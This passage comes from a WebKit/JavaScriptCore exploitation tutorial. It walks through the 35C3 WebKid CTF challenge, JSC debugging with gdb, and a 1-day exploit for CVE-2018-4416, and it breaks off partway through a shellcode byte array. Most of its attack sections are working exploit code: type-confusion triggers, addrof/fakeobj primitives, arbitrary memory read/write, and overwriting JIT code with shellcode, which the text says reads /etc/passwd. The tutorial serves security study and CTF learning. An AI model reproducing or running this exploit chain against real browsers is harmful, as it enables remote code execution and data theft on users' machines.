  +++ b/Source/WebKit/WebProcess/com.apple.WebProcess.sb.in
  @@ -25,6 +25,12 @@
   (deny default (with partial-symbolication))
   (allow system-audit file-read-metadata)
   
  +(allow file-read* (literal "/flag1"))
  +
  +(allow mach-lookup (global-name "net.saelo.shelld"))
  +(allow mach-lookup (global-name "net.saelo.capsd"))
  +(allow mach-lookup (global-name "net.saelo.capsd.xpc"))
  +
   #if PLATFORM(MAC) && __MAC_OS_X_VERSION_MIN_REQUIRED < 101300
   (import "system.sb")
   #else
#+end_example

The biggest problem here is about =tryDeletePropertyQuickly= function,
which acted like this (comment provided from /Linus Henze/:

#+begin_src cpp
  static bool tryDeletePropertyQuickly(VM& vm, JSObject* thisObject, Structure* structure, PropertyName propertyName, unsigned attributes, PropertyOffset offset)
  {
     // This assert will always be true as long as we're not passing an "invalid" offset
     ASSERT(isInlineOffset(offset) || isOutOfLineOffset(offset));

     // Try to get the previous structure of this object
     Structure* previous = structure->previousID();
     if (!previous)
         return false; // If it has none, stop here

     unsigned unused;
     // Check if the property we're deleting is the last one we added
     // This must be the case if the old structure doesn't have this property
     bool isLastAddedProperty = !isValidOffset(previous->get(vm, propertyName, unused));
     if (!isLastAddedProperty)
         return false; // Not the last property? Stop here and remove it using the normal way.

     // Assert that adding the property to the last structure would result in getting the current structure
     RELEASE_ASSERT(Structure::addPropertyTransition(vm, previous, propertyName, attributes, offset) == structure);

     // Uninteresting. Basically, this just deletes this objects Butterfly if it's not an array and we're asked to delete the last out-of-line property. The Butterfly then becomes useless because no property is stored in it, so we can delete it.
     if (offset == firstOutOfLineOffset && !structure->hasIndexingHeader(thisObject)) {
         ASSERT(!previous->hasIndexingHeader(thisObject) && structure->outOfLineCapacity() > 0 && previous->outOfLineCapacity() == 0);
         thisObject->setButterfly(vm, nullptr);
     }

     // Directly set the structure of this object
     thisObject->setStructure(vm, previous);

     return true;
  }
#+end_src

In short, one object will fall back to previous structure ID by deleting
an object added previously. For example:

#+begin_example
  var o = [1.1, 2.2, 3.3, 4.4];
  // o is now an object with structure ID 122.
  o.property = 42;
  // o is now an object with structure ID 123. The structure is a leaf (has never transitioned)

  function helper() {
       return o[0];
  }
  jitCompile(helper); // Running helper function many times
  // In this case, the JIT compiler will choose to use a watchpoint instead of runtime checks
  // when compiling the helper function. As such, it watches structure 123 for transitions.

  delete o.property;
  // o now "went back" to structure ID 122. The watchpoint was not fired.
#+end_example

Let's review some knowledge first. In JSC, we have *runtime type checks*
and *watchpoint* to ensure correct type conversion. After a function
running many times, the JSC will not use structure check. Instead, it
will replace it with *watchpoint*. When an object is modified, the
browser should trigger watchpoint to notify this change to fallback to
JS interpreter and generate new JIT code.

Here, restoring to the previous ID does will not trigger =watchpoint=
even though the structure has changed, which means the structure of
*butterfly pointer* will also be changed. However, the JIT code
generated by =helper= will not fallback since *watchpoint* is not
trigged, leading to type confusion. And the JIT code can still access
legacy *butterfly* structure. We can leak/create fake objects.

This is the minimum attack primitive:

#+begin_example
  haxxArray = [13.37, 73.31];
  haxxArray.newProperty = 1337;

  function returnElem() {
      return haxxArray[0];
  }

  function setElem(obj) {
      haxxArray[0] = obj;
  }

  for (var i = 0; i < 100000; i++) {
      returnElem();
      setElem(13.37);
  }

  delete haxxArray.newProperty;
  haxxArray[0] = {};

  function addrof(obj) {
      haxxArray[0] = obj;
      return returnElem();
  }

  function fakeobj(address) {
      setElem(address);
      return haxxArray[0];
  }
  // JIT code treat it as intereger, but it actually should be an object. 
  // We can leak address from it
  print(addrof({})); 
  // Almost the same as above, but it's for write data
  print(fakeobj(addrof({})));
#+end_example

** Utility Functions
   :PROPERTIES:
   :CUSTOM_ID: utility-functions
   :END:
The exploit script creates many utility functions. They help us to
create primitive which you need in almost every webkit exploit. We will
only look at some important functions.

*** Getting Native Code
    :PROPERTIES:
    :CUSTOM_ID: getting-native-code
    :END:
To attack, we need a native code function to write shellcode or ROP.
Besides, functions will only be a native code after running many
times(this one is in =pwn.js=):

#+begin_example
  function jitCompile(f, ...args) {
      for (var i = 0; i < ITERATIONS; i++) {
          f(...args);
      }
  }

  function makeJITCompiledFunction() {
      // Some code that can be overwritten by the shellcode.
      function target(num) {
          for (var i = 2; i < num; i++) {
              if (num % i === 0) {
                  return false;
              }
          }
          return true;
      }
      jitCompile(target, 123);

      return target;
  }
#+end_example

*** Controlling Bytes
    :PROPERTIES:
    :CUSTOM_ID: controlling-bytes
    :END:
In the =int64.js=, we craft a class =Int64=. It uses =Uint8Array= to
store number and creates many related operations like =add= and =sub=.
In the previous chapter, we mention that JavaScript uses *tagged value*
to represent the number, which means that you cannot control the higher
byte. The =Uint8Array= array represents 8-bit unsigned integers just
like native value, allowing us to control all 8 bytes.

Simple example usage of =Uint8Array=:

#+begin_example
  var x = new Uint8Array([17, -45.3]);
  var y = new Uint8Array(x);
  console.log(x[0]); 
  // 17

  console.log(x[1]); // value will be converted 8 bit unsigned integers
  // 211 
#+end_example

It can be merged to a 16 byte array. The following shows us that
=Uint8Array= store in native form clearly, because =0x0201= == =513=:

#+begin_example
  a = new Uint8Array([1,2,3,4])
  b = new  Uint16Array(a.buffer) 
  // Uint16Array [513, 1027]
#+end_example

Remaining functions of =Int64= are simulations of different operations.
You can infer their implementations from their names and comments.
Reading the codes is easy too.

** Writing Exploit
   :PROPERTIES:
   :CUSTOM_ID: writing-exploit
   :END:
*** Detail about the Script
    :PROPERTIES:
    :CUSTOM_ID: detail-about-the-script
    :END:
I add some comments from Saelo's original writeup(most comments are
still his work, great thanks!):

#+begin_example
  const ITERATIONS = 100000;

  // A helper function returns function with native code
  function jitCompile(f, ...args) {
      for (var i = 0; i < ITERATIONS; i++) {
          f(...args);
      }
  }
  jitCompile(function dummy() { return 42; });

  // Return a function with native code, we will palce shellcode in this function later
  function makeJITCompiledFunction() {

      // Some code that can be overwritten by the shellcode.
      function target(num) {
          for (var i = 2; i < num; i++) {
              if (num % i === 0) {
                  return false;
              }
          }
          return true;
      }
      jitCompile(target, 123);

      return target;
  }

  function setup_addrof() {
      var o = [1.1, 2.2, 3.3, 4.4];
      o.addrof_property = 42;

      // JIT compiler will install a watchpoint to discard the
      // compiled code if the structure of |o| ever transitions
      // (a heuristic for |o| being modified). As such, there
      // won't be runtime checks in the generated code.
      function helper() {
          return o[0];
      }
      jitCompile(helper);

      // This will take the newly added fast-path, changing the structure
      // of |o| without the JIT code being deoptimized (because the structure
      // of |o| didn't transition, |o| went "back" to an existing structure).
      delete o.addrof_property;

      // Now we are free to modify the structure of |o| any way we like,
      // the JIT compiler won't notice (it's watching a now unrelated structure).
      o[0] = {};

      return function(obj) {
          o[0] = obj;
          return Int64.fromDouble(helper());
      };
  }

  function setup_fakeobj() {
      var o = [1.1, 2.2, 3.3, 4.4];
      o.fakeobj_property = 42;

      // Same as above, but write instead of reading from the array.
      function helper(addr) {
          o[0] = addr;
      }
      jitCompile(helper, 13.37);

      delete o.fakeobj_property;
      o[0] = {};

      return function(addr) {
          helper(addr.asDouble());
          return o[0];
      };
  }

  function pwn() {
      var addrof = setup_addrof();
      var fakeobj = setup_fakeobj();

      // verify basic exploit primitives work.
      var addr = addrof({p: 0x1337});
      assert(fakeobj(addr).p == 0x1337, "addrof and/or fakeobj does not work");
      print('[+] exploit primitives working');


      // from saelo: spray structures to be able to predict their IDs.
      // var structs = []
      // var i = 0;
      // var abc = [13.37];
      // abc.pointer = 1234;
      // abc['prop' + i] = 13.37;
      // structs.push(abc);
      // var victim = structs[0];
      //
      // and the payload still work stablely. It seems this action is redundant
      var structs = []
      for (var i = 0; i < 0x1000; ++i) {
          var array = [13.37];
          array.pointer = 1234;
          array['prop' + i] = 13.37;
          structs.push(array);
      }

      // take an array from somewhere in the middle so it is preceeded by non-null bytes which
      // will later be treated as the butterfly length.
      var victim = structs[0x800];
      print(`[+] victim @ ${addrof(victim)}`);

      // craft a fake object to modify victim
      var flags_double_array = new Int64("0x0108200700001000").asJSValue();
      var container = {
          header: flags_double_array,
          butterfly: victim
      };

      // create object having |victim| as butterfly.
      var containerAddr = addrof(container);
      print(`[+] container @ ${containerAddr}`);
      // add the offset to let compiler recognize fake structure
      var hax = fakeobj(Add(containerAddr, 0x10));
      // origButterfly is now based on the offset of **victim** 
      // because it becomes the new butterfly pointer
      // and hax[1] === victim.pointer
      var origButterfly = hax[1];

      var memory = {
          addrof: addrof,
          fakeobj: fakeobj,

          // Write an int64 to the given address.
          writeInt64(addr, int64) {
              hax[1] = Add(addr, 0x10).asDouble();
              victim.pointer = int64.asJSValue();
          },

          // Write a 2 byte integer to the given address. Corrupts 6 additional bytes after the written integer.
          write16(addr, value) {
              // Set butterfly of victim object and dereference.
              hax[1] = Add(addr, 0x10).asDouble();
              victim.pointer = value;
          },

          // Write a number of bytes to the given address. Corrupts 6 additional bytes after the end.
          write(addr, data) {
              while (data.length % 4 != 0)
                  data.push(0);

              var bytes = new Uint8Array(data);
              var ints = new Uint16Array(bytes.buffer);

              for (var i = 0; i < ints.length; i++)
                  this.write16(Add(addr, 2 * i), ints[i]);
          },

          // Read a 64 bit value. Only works for bit patterns that don't represent NaN.
          read64(addr) {
              // Set butterfly of victim object and dereference.
              hax[1] = Add(addr, 0x10).asDouble();
              return this.addrof(victim.pointer);
          },

          // Verify that memory read and write primitives work.
          test() {
              var v = {};
              var obj = {p: v};

              var addr = this.addrof(obj);
              assert(this.fakeobj(addr).p == v, "addrof and/or fakeobj does not work");

              var propertyAddr = Add(addr, 0x10);

              var value = this.read64(propertyAddr);
              assert(value.asDouble() == addrof(v).asDouble(), "read64 does not work");

              this.write16(propertyAddr, 0x1337);
              assert(obj.p == 0x1337, "write16 does not work");
          },
      };

      // Testing code, not related to exploit
      var plainObj = {};
      var header = memory.read64(addrof(plainObj));
      memory.writeInt64(memory.addrof(container), header);
      memory.test();
      print("[+] limited memory read/write working");

      // get targetd function
      var func = makeJITCompiledFunction();
      var funcAddr = memory.addrof(func);

      // change the JIT code to shellcode
      // offset addjustment is a little bit complicated here :P
      print(`[+] shellcode function object @ ${funcAddr}`);
      var executableAddr = memory.read64(Add(funcAddr, 24));
      print(`[+] executable instance @ ${executableAddr}`);
      var jitCodeObjAddr = memory.read64(Add(executableAddr, 24));
      print(`[+] JITCode instance @ ${jitCodeObjAddr}`);
      // var jitCodeAddr = memory.read64(Add(jitCodeObjAddr, 368));      // offset for debug builds
      // final JIT Code address
      var jitCodeAddr = memory.read64(Add(jitCodeObjAddr, 352));
      print(`[+] JITCode @ ${jitCodeAddr}`);

      var s = "A".repeat(64);
      var strAddr = addrof(s);
      var strData = Add(memory.read64(Add(strAddr, 16)), 20);
      shellcode.push(...strData.bytes());

      // write shellcode
      memory.write(jitCodeAddr, shellcode);

      // trigger shellcode
      var res = func();

      var flag = s.split('\n')[0];
      if (typeof(alert) !== 'undefined')
          alert(flag);
      print(flag);
  }

  if (typeof(window) === 'undefined')
      pwn();
#+end_example

** Conclusion on the Exploitation
   :PROPERTIES:
   :CUSTOM_ID: conclusion-on-the-exploitation
   :END:
To conclude, the exploit uses two most important attack primitive -
=addrof= and =fakeobj= - to leak and craft. A JITed function is leaked
and overwritten with our =shellcode= array. Then we called the function
to leak flag. Almost all the browser exploits follow this form.

Thanks, 35C3 CTF organizers especially Saelo. It's a great challenge to
learn WebKit type confusion.

--------------

* Debugging WebKit
  :PROPERTIES:
  :CUSTOM_ID: debugging-webkit
  :END:
Now, we have understood all the theories: architecture, object model,
exploitation. Let's start some real operations. To prepare, use compiled
/JSC/ from *Setup* part. Just use the latest version since we only
discuss debugging here.

I used to try to set breakpoints to find their addresses, but this is
actually very stupid. /JSC/ has many non-standard functions which can
dump information for us (you cannot use most of them in /Safari/!): -
=print()= and =debug()=: Like =console.log()= in /node.js/, it will
output information to our terminal. However, =print= in /Safari/ will
use a real-world printer to print documents. - =describe()=: Describe
one object. We can get the address, class member, and related
information via the function. - =describeArrya()=: Similar to
=describe()=, but it focuses on /array/ information of an object. -
=readFile()=: Open a file and get the content - =noDFG()= and =noFLT()=:
Disable some JIT compilers.

** Setting Breakpoints
   :PROPERTIES:
   :CUSTOM_ID: setting-breakpoints
   :END:
The easiest way to set breakpoints is breaking an unused function.
Something like =print= or =Array.prototype.slice([]);=. Since we do not
know if a function will affect one PoC most of the time, this method
might bring some side effect.

Setting vulnerable functions as our breakpoints also work. When you try
to understand a vulnerability, breaking them will be extremely
important. But their calling stacks may not be pleasant.

We can also customize a debugging function (use =int 3=) in WebKit
source code. Defining, implementing, and registering our function in
=/Source/JavaScriptCore/jsc.cpp=. It helps us to hang WebKit in
debuggers:

#+begin_src cpp
  static EncodedJSValue JSC_HOST_CALL functionDbg(ExecStage*);
  addFunction(vm, "dbg", functionDbg, 0);
  static EncodedJSValue JSC_HOST_CALL functionDbg(ExecStage* exec) {
      asm("int 3");
      return JSValue::encode(jsUndefined());
  }
#+end_src

Since the third method requires us to modify the source code, I prefer
the previous two personally.

** Inspecting JSC Objects
   :PROPERTIES:
   :CUSTOM_ID: inspecting-jsc-objects
   :END:
Okay, we use this script:

#+begin_example
  arr = [0, 1, 2, 3]
  debug(describe(arr))

  print()
#+end_example

Use our *gdb* with *gef* to debug; you may guess out we will break the
=print()=:

#+begin_example
  gdb jsc
  gef> b *printInternal
  gef> r
  --> Object: 0x7fffaf4b4350 with butterfly 0x7ff8000e0010 (Structure 0x7fffaf4f2b50:[Array, {}, CopyOnWriteArrayWithInt32, Proto:0x7fffaf4c80a0, Leaf]), StructureID: 100

  ...
  // Some backtrace
#+end_example

#+begin_quote
  The Object address and butterfly pointer might vary on your machine.
  If we edit the script, the address may also change. Please adjust them
  based on your output.
#+end_quote

We shall have a first glance on the object and its pointer:

#+begin_example
  gef>  x/2gx 0x7fffaf4b4350
  0x7fffaf4b4350:    0x0108211500000064    0x00007ff8000e0010
  gef>  x/4gx 0x00007ff8000e0010
  0x7ff8000e0010:    0xffff000000000000    0xffff000000000001
  0x7ff8000e0020:    0xffff000000000002    0xffff000000000003
#+end_example

What if we change it to float?

#+begin_example
  arr = [1.0, 1.0, 2261634.5098039214, 2261634.5098039214]
  debug(describe(arr))
   
  print()
#+end_example

We use a small trick here: =2261634.5098039214= represents as
=0x4141414141414141= in memory. Finding value is more handy via the
magical number (we use butterfly pointer directly here). In default,
*JSC* will filled unused memory with =0x00000000badbeef0=:

#+begin_example
  gef>  x/10gx 0x00007ff8000e0010
  0x7ff8000e0010:    0x3ff0000000000000    0x3ff0000000000000
  0x7ff8000e0020:    0x4141414141414141    0x4141414141414141
  0x7ff8000e0030:    0x00000000badbeef0    0x00000000badbeef0
  0x7ff8000e0040:    0x00000000badbeef0    0x00000000badbeef0
  0x7ff8000e0050:    0x00000000badbeef0    0x00000000badbeef0
#+end_example

The memory layout is the same as the /JSC Object Model/ part, so we
won't repeat here.

** Getting Native Code
   :PROPERTIES:
   :CUSTOM_ID: getting-native-code-1
   :END:
Now, it's time to get compiled function. It plays an important role in
understanding JSC compiler and exploiting:

#+begin_example
  const ITERATIONS = 100000;

  function jitCompile(f, ...args) {
      for (var i = 0; i < ITERATIONS; i++) {
          f(...args);
      }
  }
  jitCompile(function dummy() { return 42; });
  debug("jitCompile Ready")

  function makeJITCompiledFunction() {
      function target(num) {
          for (var i = 2; i < num; i++) {
              if (num % i === 0) {
                  return false;
              }
          }
          return true;
      }
      jitCompile(target, 123);

      return target;
  }

  func = makeJITCompiledFunction()
  debug(describe(func))

  print()
#+end_example

It's not hard if you read previous section carefully. Now, we should get
their native code in the debugger:

#+begin_example
  --> Object: 0x7fffaf468120 with butterfly (nil) (Structure 0x7fffaf4f1b20:[Function, {}, NonArray, Proto:0x7fffaf4d0000, Leaf]), StructureID: 63
  ...
  // Some backtrace
  ...
  gef>  x/gx 0x7fffaf468120+24
  0x7fffaf468138:    0x00007fffaf4fd080
  gef>  x/gx 0x00007fffaf4fd080+24
  0x7fffaf4fd098:    0x00007fffefe46000
  // In debug mode, it's okay to use 368 as offset
  // In release mode, however, it should be 352
  gef>  x/gx 0x00007fffefe46000+368
  0x7fffefe46170:    0x00007fffafe02a00
  gef>  hexdump byte 0x00007fffafe02a00
  0x00007fffafe02a00     55 48 89 e5 48 8d 65 d0 48 b8 60 0c 45 af ff 7f    UH..H.e.H.`.E...
  0x00007fffafe02a10     00 00 48 89 45 10 48 8d 45 b0 49 bb b8 2e c1 af    ..H.E.H.E.I.....
  0x00007fffafe02a20     ff 7f 00 00 49 39 03 0f 87 9c 00 00 00 48 8b 4d    ....I9.......H.M
  0x00007fffafe02a30     30 48 b8 00 00 00 00 00 00 ff ff 48 39 c1 0f 82    0H.........H9...
#+end_example

Put you dump byte to rasm2:

#+begin_example
  rasm -d "you dump byte here"
  push ebp
  dec eax
  mov ebp, esp
  dec eax
  lea esp, [ebp - 0x30]
  dec eax
  mov eax, 0xaf450c60
  invalid
  jg 0x11
  add byte [eax - 0x77], cl
  inc ebp
  adc byte [eax - 0x73], cl
  inc ebp
  mov al, 0x49
  mov ebx, 0xafc12eb8
  invalid
  jg 0x23
  add byte [ecx + 0x39], cl
  add ecx, dword [edi]
  xchg dword [eax + eax - 0x74b80000], ebx
  dec ebp
  xor byte [eax - 0x48], cl
  add byte [eax], al
  add byte [eax], al
  add byte [eax], al
  invalid
  dec dword [eax + 0x39]
  ror dword [edi], 0x82
#+end_example

Emmmm...the disassembly code is partially incorrect. At least we can see
a draft now.

--------------

* 1 Day Exploitation
  :PROPERTIES:
  :CUSTOM_ID: day-exploitation
  :END:
Let's use the bug in /triggering bug/ section: *CVE-2018-4416*.

It's a type confusion. Since we already talked about /WebKid/, a similar
CTF challenge which has type confusion bug, it won't be difficult to
understand this one. Switch to the vulnerable branch and start our
journey.

PoC is provided at the beginning of the article. Copy and paste the
=int64.js=, =shellcode.js=, and =utils.js= from /WebKid/ repo to your
virtual machine.

** Root Cause
   :PROPERTIES:
   :CUSTOM_ID: root-cause
   :END:
*** Quotation from Lokihardt
    :PROPERTIES:
    :CUSTOM_ID: quotation-from-lokihardt
    :END:
The following is description of *CVE-2018-4416* from /Lokihardt/, with
my partial highlight.

When a =for-in= loop is executed, a =JSPropertyNameEnumerator object= is
created at the beginning and used to store the information of the input
object to the =for-in= loop. Inside the loop, the /structure ID/ of the
"this" object of every =get_by_id= expression *taking the loop variable
as the index is compared to the cached =structure ID= from the
=JSPropertyNameEnumerator object=*. If it's the same, the "this" object
of the =get_by_id= expression *will be considered having the same
structure as the input object* to the =for-in= loop has.

The problem is, it doesn't have anything to prevent the structure from
which the cached /structure ID/ from being freed. As /structure IDs/ can
be reused after their owners get freed, this can lead to /type
confusion/.

*** Line by Line Explanation
    :PROPERTIES:
    :CUSTOM_ID: line-by-line-explanation
    :END:
Comment in =/* */= is my analysis, which might be inaccurate. Comment
after =//= is by Lokihardt:

#+begin_example
  function gc() {
      for (let i = 0; i < 10; i++) {
          let ab = new ArrayBuffer(1024 * 1024 * 10);
      }
  }

  function opt(obj) {
      // Starting the optimization.
      for (let i = 0; i < 500; i++) {

      }
      /* Step 3 */
      /* This is abother target */
      /* We want to confuse it(tmp) with obj(fake_object_memory) */
      let tmp = {a: 1};

      gc();
      tmp.__proto__ = {};

      for (let k in tmp) {  // The structure ID of "tmp" is stored in a JSPropertyNameEnumerator.
          /* Step 4 */
          /* Change the structure of tmp to {} */
          tmp.__proto__ = {};

          gc();
          /* The structure of obj is also {} now */
          obj.__proto__ = {};  // The structure ID of "obj" equals to tmp's.

          /* Step 5 */
          /* Compiler believes obj and tmp share the same type now */
          /* Thus, obj[k] will retrieve data from object with offset a */
          /* In the patched version, it should be undefined */
          return obj[k];  // Type confusion.
      }
  }

  /* Step 0 */
  /* Prepare structure {} */
  opt({});

  /* Step 1 */
  /* Target Array, 0x1234 is our fake address*/
  let fake_object_memory = new Uint32Array(100);
  fake_object_memory[0] = 0x1234;

  /* Step 2 */
  /* Trigger type confusion*/
  let fake_object = opt(fake_object_memory);

  /* JSC crashed */
  print(fake_object);
#+end_example

*** Debugging
    :PROPERTIES:
    :CUSTOM_ID: debugging
    :END:
Let's debug it to verify our thought. I modify the original PoC for
easier debugging. But they are almost identical except additional
=print()=:

#+begin_example
  function gc() {
      for (let i = 0; i < 10; i++) {
          let ab = new ArrayBuffer(1024 * 1024 * 10);
      }
  }

  function opt(obj) {
      // Starting the optimization.
      for (let i = 0; i < 500; i++) {

      }

      let tmp = {a: 1};

      gc();
      tmp.__proto__ = {};

      for (let k in tmp) {  // The structure ID of "tmp" is stored in a JSPropertyNameEnumerator.
          tmp.__proto__ = {};
          gc();
          obj.__proto__ = {};  // The structure ID of "obj" equals to tmp's.
          debug("Confused Object: " + describe(obj));
          return obj[k];  // Type confusion.
      }
  }

  opt({});

  let fake_object_memory = new Uint32Array(100);
  fake_object_memory[0] = 0x41424344;
  let fake_object = opt(fake_object_memory);
  print()
  print(fake_object)
#+end_example

Then =gdb ./jsc=, =b *printInternal=, and =r poc.js=. We can get:

#+begin_example
  ...

  --> Confused Object: Object: 0x7fffaf6b0080 with butterfly (nil) (Structure 0x7fffaf6f3db0:[Object, {}, NonArray, Proto:0x7fffaf6b3e80, Leaf]), StructureID: 142
  --> Confused Object: Object: 0x7fffaf6cbe40 with butterfly (nil) (Structure 0x7fffaf6f3db0:[Uint32Array, {}, NonArray, Proto:0x7fffaf6b3e00, Leaf]), StructureID: 142

  ...
#+end_example

Let's take a glance at our fake address. JSC is too large to find your
dream breakpoint. Let's set a watchpoint to track its flow instead:

#+begin_example
  gef>  x/4gx 0x7fffaf6cbe40
  0x7fffaf6cbe40: 0x02082a000000008e  0x0000000000000000
  0x7fffaf6cbe50: 0x00007fe8014fc000  0x0000000000000064
  gef>  x/4gx 0x00007fe8014fc000
  0x7fe8014fc000: 0x0000000041424344  0x0000000000000000
  0x7fe8014fc010: 0x0000000000000000  0x0000000000000000
  gef>  rwatch *0x7fe8014fc000
  Hardware read watchpoint 2: *0x7fe8014fc000
#+end_example

We get expected output later:

#+begin_example
  Thread 1 "jsc" hit Hardware read watchpoint 2: *0x7fe8014fc000

  Value = 0x41424344
  0x00005555555bebd4 in JSC::JSCell::structureID (this=0x7fe8014fc000) at ../../Source/JavaScriptCore/runtime/JSCell.h:133
  133     StructureID structureID() const { return m_structureID; }
#+end_example

But why does it show at =structure ID=? We can get answer from their
memory layout:

#+begin_example
  obj (fake_object_memory):
  0x7fffaf6cbe40: 0x02082a000000008e  0x0000000000000000
  0x7fffaf6cbe50: 0x00007fe8014fc000  0x0000000000000064

  tmp ({a: 1}):
  0x7fffaf6cbdc0: 0x000016000000008b  0x0000000000000000
  0x7fffaf6cbdd0: 0xffff000000000001  0x0000000000000000
#+end_example

So, the pointer of =Uin32Array= is returned as an object. And
=m_structureID= is at the beginning of each JS Objects. Since =0x1234=
is the first element of our array, it's reasonable for =structureID()=
to retrieve it.

We can use data in =Uint32Array= to craft fake object now. Awesome!

** Constructing Attack Primitive
   :PROPERTIES:
   :CUSTOM_ID: constructing-attack-primitive
   :END:
*** addrof
    :PROPERTIES:
    :CUSTOM_ID: addrof
    :END:
Now, we should craft a legal object. I choose ={}= (an empty object) as
our target.

How does an empty look like in memory(ignore scripting and debugging
here):

#+begin_example
  0x7fe8014fc000: 0x010016000000008a  0x0000000000000000
#+end_example

Okay, it begins with =0x010016000000008a=. We can simulate it in
=Uint32Array= handy(remember to paste =gc= and =opt= to here):

#+begin_example
  function gc() {
  ... // Same as above's
  }

  function opt(obj) {
  ... // Same as above;s
  }

  opt({});

  let fake_object_memory = new Uint32Array(100);
  fake_object_memory[0] = 0x0000004c;
  fake_object_memory[1] = 0x01001600;
  let fake_object = opt(fake_object_memory);
  fake_object.a = {}

  print(fake_object_memory[4])
  print(fake_object_memory[5])
#+end_example

Two mystery numbers are returned:

#+begin_src shell
  2591768192 # hex: 0x9a7b3e80
  32731 # hex: 0x7fdb
#+end_src

Obviously, it is in pointer format. We can leak arbitrary object now!

*** fakeobj
    :PROPERTIES:
    :CUSTOM_ID: fakeobj
    :END:
Getting a =fakeob= is almost identical to crafting =addrof=. The
difference is that you need to fill an address to =UInt32Array=, then
get the object via attribute =a= in =fake_object=

*** Arbitrary R/W and Shellcode Execution
    :PROPERTIES:
    :CUSTOM_ID: arbitrary-rw-and-shellcode-execution
    :END:
It's similar to the exploit script in =WebKid= challenge. The full
script is too long to explain line by line. You can, however, find it
[[/assets/CVE-2018-4416.js][here]]. You may need to try around 10 rounds
to exploit successfully. It will read your =/etc/passwd= when succeed.
Here is the core code:

#+begin_example
  // get compiled function
  var func = makeJITCompiledFunction();

  function gc() {
      for (let i = 0; i < 10; i++) {
          let ab = new ArrayBuffer(1024 * 1024 * 10);
      }
  }

  // Typr confusion here
  function opt(obj) {
      for (let i = 0; i < 500; i++) {

      }

      let tmp = {a: 1};
      gc();
      tmp.__proto__ = {};

      for (let k in tmp) {
          tmp.__proto__ = {};
          gc();
          obj.__proto__ = {};
          // Compiler are misleaded that obj and tmp shared same type
          return obj[k];
      }
  }

  opt({});

  // Use Uint32Array to craft a controable memory
  // Craft a fake object header
  let fake_object_memory = new Uint32Array(100);
  fake_object_memory[0] = 0x0000004c;
  fake_object_memory[1] = 0x01001600;
  let fake_object = opt(fake_object_memory);

  debug(describe(fake_object))

  // Use JIT to stablized our attribute
  // Attribute a will be used by addrof/fakeobj
  // Attrubute b will be used by arbitrary read/write
  for (i = 0; i < 0x1000; i ++) {
      fake_object.a = {test : 1};
      fake_object.b = {test : 1};
  }

  // get addrof
  // we pass a pbject to fake_object
  // since fake_object is inside fake_object_memory and represneted as integer
  // we can use fake_object_memory to retrieve the integer value
  function setup_addrof() {
      function p32(num) {
          value = num.toString(16)
          return "0".repeat(8 - value.length) + value
      }
      return function(obj) {
          fake_object.a = obj
          value = ""
          value = "0x" + p32(fake_object_memory[5]) + "" + p32(fake_object_memory[4])
          return new Int64(value)
      }
  }

  // Same
  // But we pass integer value first. then retrieve object 
  function setup_fakeobj() {
       return function(addr) {
          //fake_object_memory[4] = addr[0]
          //fake_object_memory[5] = addr[1]
          value = addr.toString().replace("0x", "")
          fake_object_memory[4] = parseInt(value.slice(8, 16), 16)
          fake_object_memory[5] = parseInt(value.slice(0, 8), 16)
          return fake_object.a
       }
  }

  addrof = setup_addrof()
  fakeobj = setup_fakeobj()
  debug("[+] set up addrof/fakeobj")
  var addr = addrof({p: 0x1337});
  assert(fakeobj(addr).p == 0x1337, "addrof and/or fakeobj does not work");
  debug('[+] exploit primitives working');

  // Use fake_object + 0x40 cradt another fake object for read/write
  var container_addr = Add(addrof(fake_object), 0x40)
  fake_object_memory[16] = 0x00001000;
  fake_object_memory[17] = 0x01082007;

  var structs = []
  for (var i = 0; i < 0x1000; ++i) {
      var a = [13.37];
      a.pointer = 1234;
      a['prop' + i] = 13.37;
      structs.push(a);
  }

  // We will use victim as the butterfly pointer of contianer object
  victim = structs[0x800]
  victim_addr = addrof(victim)
  victim_addr_hex = victim_addr.toString().replace("0x", "")
  fake_object_memory[19] = parseInt(victim_addr_hex.slice(0, 8), 16)
  fake_object_memory[18] = parseInt(victim_addr_hex.slice(8, 16), 16)

  // Overwrite container to fake_object.b
  container_addr_hex = container_addr.toString().replace("0x", "")
  fake_object_memory[7] = parseInt(container_addr_hex.slice(0, 8), 16)
  fake_object_memory[6] = parseInt(container_addr_hex.slice(8, 16), 16)
  var hax = fake_object.b

  var origButterfly = hax[1];

  var memory = {
      addrof: addrof,
      fakeobj: fakeobj,

      // Write an int64 to the given address.
      // we change the butterfly of victim to addr + 0x10
      // when victim change the pointer attribute, it will read butterfly - 0x10
      // which equal to addr + 0x10 - 0x10 = addr
      // read arbiutrary value is almost the same
      writeInt64(addr, int64) {
          hax[1] = Add(addr, 0x10).asDouble();
          victim.pointer = int64.asJSValue();
      },

      // Write a 2 byte integer to the given address. Corrupts 6 additional bytes after the written integer.
      write16(addr, value) {
          // Set butterfly of victim object and dereference.
          hax[1] = Add(addr, 0x10).asDouble();
          victim.pointer = value;
      },

      // Write a number of bytes to the given address. Corrupts 6 additional bytes after the end.
      write(addr, data) {
          while (data.length % 4 != 0)
              data.push(0);

          var bytes = new Uint8Array(data);
          var ints = new Uint16Array(bytes.buffer);

          for (var i = 0; i < ints.length; i++)
              this.write16(Add(addr, 2 * i), ints[i]);
      },

      // Read a 64 bit value. Only works for bit patterns that don't represent NaN.
      read64(addr) {
          // Set butterfly of victim object and dereference.
          hax[1] = Add(addr, 0x10).asDouble();
          return this.addrof(victim.pointer);
      },

      // Verify that memory read and write primitives work.
      test() {
          var v = {};
          var obj = {p: v};

          var addr = this.addrof(obj);
          assert(this.fakeobj(addr).p == v, "addrof and/or fakeobj does not work");

          var propertyAddr = Add(addr, 0x10);

          var value = this.read64(propertyAddr);
          assert(value.asDouble() == addrof(v).asDouble(), "read64 does not work");

          this.write16(propertyAddr, 0x1337);
          assert(obj.p == 0x1337, "write16 does not work");
      },
  };

  memory.test();
  debug("[+] limited memory read/write working");

  // Get JIT code address
  debug(describe(func))
  var funcAddr = memory.addrof(func);
  debug(`[+] shellcode function object @ ${funcAddr}`);
  var executableAddr = memory.read64(Add(funcAddr, 24));
  debug(`[+] executable instance @ ${executableAddr}`);
  var jitCodeObjAddr = memory.read64(Add(executableAddr, 24));
  debug(`[+] JITCode instance @ ${jitCodeObjAddr}`);
  var jitCodeAddr = memory.read64(Add(jitCodeObjAddr, 368));
  //var jitCodeAddr = memory.read64(Add(jitCodeObjAddr, 352));
  debug(`[+] JITCode @ ${jitCodeAddr}`);

  // Our shellcode
  var shellcode = [0xeb, 0x3f, 0x5f, 0x80, 0x77, 0xb, 0x41, 0x48, 0x31, 0xc0,
